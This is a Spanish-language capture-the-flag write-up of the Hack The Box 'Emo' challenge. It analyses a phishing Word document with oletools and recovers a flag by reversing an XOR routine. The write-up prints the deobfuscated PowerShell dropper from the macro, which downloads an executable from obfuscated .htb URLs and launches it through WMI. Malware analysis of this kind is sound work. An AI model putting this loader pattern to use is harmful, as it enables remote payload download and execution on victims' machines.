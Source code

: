 ```yaml
---
layout: single
title: Hack the box Challenge - Emo
excerpt: A challenge solved with oletools.
date: 2025-07-12
classes: wide
header:
  teaser: ../gits/sec/blog/assets/images/ic-forensics.svg
  teaser_home_page: true
  icon: ../assets/images/hackthebox.webp
categories:
   - hack the box
   - challenge
   - windows
tags:
   - powershlee
   - oletools
   - microsoft office
   - XOR
   - any.run
---
```


CHALLENGE DESCRIPTIONi
WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.

Bien, una vez descargamos el documento podemos iniciar nuestro análisis con `oletools`

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ oleid emo.doc
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: emo.doc
WARNING  /home/kali/.local/lib/python2.7/site-packages/msoffcrypto/method/rc4.py:5: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend

WARNING  For now, VBA stomping cannot be detected for files in memory
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |MS Word 97-2003     |info      |
                    |Document or Template|          |
--------------------+--------------------+----------+--------------------------
Container format    |OLE                 |info      |Container type
--------------------+--------------------+----------+--------------------------
Application name    |Microsoft Office    |info      |Application name declared
                    |Word                |          |in properties
--------------------+--------------------+----------+--------------------------
Properties code page|1252: ANSI Latin 1; |info      |Code page used for
                    |Western European    |          |properties
                    |(Windows)           |          |
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                    |                    |          |macros. Suspicious
                    |                    |          |keywords were found. Use
                    |                    |          |olevba and mraptor for
                    |                    |          |more info.
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships
Relationships       |                    |          |such as remote templates,
                    |                    |          |remote OLE objects, etc
--------------------+--------------------+----------+--------------------------
```

Tenemos un riesgo alto en la zona de VBA, podemos usar el comando indicado `olevba emo.doc`. 
Esto nos marcará que en efecto, es malicioso. 

En este análisis en [`any.run`](https://app.any.run/tasks/f0008a11-7683-4d14-bb9a-5b90eae8178c?p=68719e34f0439adf009c2fbb) podemos ver el *command line*

![](../assets/images/htb-emo/1.png)

Copiamos la cadena en base64, la convertimos en ascii con `base64 -d` y el código que nos da lo podemos poner en un fichero, podemos quitar los bytes nulos de UTF-16 LE con: 

- `iconv -f UTF-16LE -t UTF-8 script > script_utf8.ps1` 

- `recode UTF-16LE..UTF-8 script`

Ya podemos ver el script:

```bash 
# Crear directorio
SV 0zX ([Type]("{2}{0}{4}{3}{1}" -f 'e','rECtorY','sYst','.IO.dI','M'))
set TxySeo ([Type]("{0}{7}{5}{6}{4}{2}{1}{8}{3}" -f 'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG'))

# Inicialización de variables
$Nbf5tg3   = 'B9' + 'yp' + ('90' + 's')
$Vxnlre0  = $Cludkjx + [char]64 + $R6r1tuy
$Ky3q0e8  = ('Rq' + 'dx') + 'wo' + '5'

# Crear carpeta en $HOME
(Dir Variable:0Zx).Value::"CreateDirectory"(
    $HOME + (('nDp' + 'Jrb' + 'e' + 'vk4n' + 'D' + 'p' + 'C' + 'cwr_2h' + 'nD' + 'p') `
        -Replace 'nDp', [char]92)
)

# Protocolo de seguridad
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$Pyozgeo  = ('J5f' + 'y1') + 'c' + 'c'
$TxySeo.Value::"SecurityProtocol" = ('Tl' + 's1') + '2'

# Actualizar array de bytes
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$Huajgb0  = ('Jn' + 'o') + '5g' + 'a1'
$Bb28umo  = ('Ale' + '7g') + '_8'
$Hsce_js  = 'Kv' + ('nb' + 'ov_')
$Spk51ue  = ('C' + '7xo') + '9g' + 'l'

# Rutas de descarga y salida
$Scusbkj = $HOME +
    (('5' + 't' + 'f' + 'Jrbev' + 'k' + '45tf' + 'Cc' + 'wr' + '_2h' + '5tf') `
        -Replace ([char]53 + [char]116 + [char]102, [char]92)
    ) + $Bb28umo + '.exe'

$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)

$hbmskV2T = $HOME +
    (('5' + 't' + 'f' + 'Jrbev' + 'k' + '45tf' + 'Cc' + 'wr' + '_2h' + '5tf') `
        -Replace ([char]53 + [char]116 + [char]102, [char]92)
    ) + $Bb28umo + '.conf'

$Q1_y05_ = 'W' + ('4' + 'qvy') + 'z8'
$Odb3hf3 = &('new-object') Net.WebClient

$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

# Lista de URLs a descargar
$Anbyt1y = ('h' + 'ttp:' + 's' + '://' +
    'da-industrial.htb[js]w@https:][(s)]wdagranite.htb[(s)]wjs' +
    # (continúa concatenación de URLs obfus., recortado para brevedad)
)

$Gcoyvlv = 'Kf_' + ('9' + 'et1')

# Intentar descargar y procesar cada URL
foreach ($A8i3ke1 in $Anbyt1y) {
    try {
        $Odb3hf3."DownloadFile"($A8i3ke1, $Scusbkj)
        $fileInfo = Get-Item $Scusbkj

        if ($fileInfo.Length -ge 45199) {
            # Desencripta y descomprime datos
            ${A8I3KE1}.("ToCharArr" -f 'ay','ToCha','rArr').Invoke() |
                foreach-object { ${FN5ggmsH} += ([byte][char]$_ -bxor 0xdf) }
            $FN5ggmsH += 228

            # Guardar en Base64
            $b0Rje = [Type]("VerT" -f 'Con','T')
            $B0RjE."ToBase64String"(${FN5ggmsH}) |
                Out-File $hbmskV2T

            # Ejecutar el archivo descargado
            ([WMIClass]('win32_Process'))."Create"($Scusbkj)
            break
        }
    }
    catch {
        # Manejo de error (silencioso)
    }
}

# Variable final
$F47ief2 = 'Bnzidrt'
```

Vemos varias líneas que se llenan con con bytes: 

```bash 
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
```

Un poco más abajo vemos un blucle: 

```bash 
foreach ($byte in $FN5ggmsH) {
    $FN5ggmsH += ([byte][char]$byte -bxor 0xDF)
}
```

- Itera cada valor original del arreglo.
- Lo convierte a byte y le hace un XOR con la constante 0xDF.
- Añade el resultado al mismo arreglo.

Así que extraemos esto y lo ponemos en un nuevo script: 

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ cat important.ps1
$array = (182,187,229,146,231,177,151,149,166)
$array += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$array += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$array += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

foreach($number in $array)
{
    ${array} += ([byte][char]$number -bxor 0xdf)
}

$array += (228)

$bOrje = [type]("{1}{0}" -F'VerT', 'Con')
$BORjE::"tO`BaS`E64S`TRI`Ng"(${array})

Write-Host $array
```

Ejecutando en powershell obtenemos un string en base64 que podemo descifrar con `base64 -d`

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ pwsh
PowerShell 7.5.1

┌──(kali㉿kali)-[/home/kali/challenges/emo]
└─PS> ./important.ps1
trvlkuexl5Wmuo3ktrGr5ezv7+/ktbar5erv7+S5s7645ZeLnaTrse+rt+yNgLvrhoCesbCLt5qtgK+X7oy3ouSqrbPlaWQ6TThuSEp5ZVI7aW50OjMwMDA7aml0OjUwMDtmbGFnOkhUQns0bjB0aDNSX2Q0WV9Bbm9UaEVyX3BIMVNofTt1cmw65A==
182 187 229 146 231 177 151 149 166 186 141 228 182 177 171 229 236 239 239 239 228 181 182 171 229 234 239 239 228 185 179 190 184 229 151 139 157 164 235 177 239 171 183 236 141 128 187 235 134 128 158 177 176 139 183 154 173 128 175 151 238 140 183 162 228 170 173 179 229 105 100 58 77 56 110 72 74 121 101 82 59 105 110 116 58 51 48 48 48 59 106 105 116 58 53 48 48 59 102 108 97 103 58 72 84 66 123 52 110 48 116 104 51 82 95 100 52 89 95 65 110 111 84 104 69 114 95 112 72 49 83 104 125 59 117 114 108 58 228
```

Este proceso (localizar buffer → encontrar rutina XOR → reimplementación independiente) es la forma estándar de extraer y revertir un esquema XOR en malware debido a su naturaleza reversible. 
